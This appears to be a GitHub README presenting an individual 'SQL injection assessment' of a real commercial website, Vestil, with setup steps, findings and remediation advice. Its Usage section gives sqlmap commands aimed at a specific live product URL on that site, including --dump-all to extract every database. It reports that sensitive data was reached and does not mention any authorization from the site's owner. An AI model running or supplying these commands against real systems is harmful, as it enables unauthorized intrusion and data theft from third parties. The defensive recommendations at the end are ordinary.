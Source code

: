 # SQL Injection Vulnerability Assessment

## Overview

This project involves assessing SQL injection vulnerabilities within the Vestil website. The assessment aims to identify and exploit SQL injection points to highlight their impact on database security.

## Purpose

- **Identify Vulnerabilities**: Detected SQL injection weaknesses in the Vestil website.
- **Exploit Vulnerabilities**: Demonstrated how these vulnerabilities can be exploited.
- **Mitigate Risks**: Provided recommendations to improve security.

## Technologies Used

- **Kali Linux**: A Linux distribution for penetration testing.
- **SQLmap**: A tool for automated SQL injection detection and exploitation.

## Setup and Installation

   **Clone the Repository**

   ```bash
   git clone https://github.com/yourusername/sql-injection-vulnerability-assessment.git
   sudo apt-get install sqlmap
   cd sql-injection-vulnerability-assessment
  ```

## Usage

Providing a step-by-step guide on how to use the tools and perform the assessment.

1. **Initial Reconnaissance**

   Identify potential SQL injection points by manipulating URL parameters on the Vestil website.

2. **Run SQLmap**

   Use SQLmap to detect SQL injection vulnerabilities:

   ```bash
   sqlmap -u "https://www.vestil.com/product.php?FID=1430" --dbs
   sqlmap -u "https://www.vestil.com/product.php?FID=1430" --tables
   sqlmap -u "https://www.vestil.com/product.php?FID=1430" --dump-all
  ``

## Findings

- **Vulnerabilities Identified**: Several SQL injection points were discovered, allowing access to sensitive data in the MySQL database.
- **Impact**: These vulnerabilities could lead to unauthorized data access, theft, manipulation, and significant reputational damage.

## Recommendations

- **Use Parameterized Queries**: Prevent SQL injection by using parameterized queries.
- **Sanitize Input**: Validate and sanitize all user inputs to block malicious data.
- **Prepared Statements**: Implement prepared statements to avoid injection.
- **Access Controls**: Enforce strong authentication and access controls for the database.
- **Monitoring**: Set up alerts for unusual database activity.

## Contributions

This project was completed individually. Contributions included:
- Identifying and exploiting SQL injection vulnerabilities.
- Utilizing SQLmap for detection and data extraction.
- Documenting findings and recommendations for remediation.





